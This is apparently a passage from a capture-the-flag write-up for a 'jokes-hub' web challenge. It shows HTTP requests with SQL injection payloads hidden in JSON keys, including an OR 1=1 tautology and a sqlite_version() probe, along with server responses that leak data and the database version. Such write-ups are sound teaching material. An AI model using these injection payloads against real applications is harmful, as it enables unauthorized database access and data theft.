 ```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 02:14:01 GMT
content-type: application/json
content-length: 40
connection: close

{"result":"To get to the other slide!"}
```

Thos also works :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"punchline, joke FROM jokes WHERE '' OR 1=1 --":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 02:14:01 GMT
content-type: application/json
content-length: 40
connection: close

{"result":"To get to the other slide!"}
```

### Getting infos about the DB

1. Get type of DB :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Connection: close

{"sqlite_version();--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 03:39:06 GMT
content-type: application/json
content-length: 20
connection: close

{"result":"3.39.3"}
```
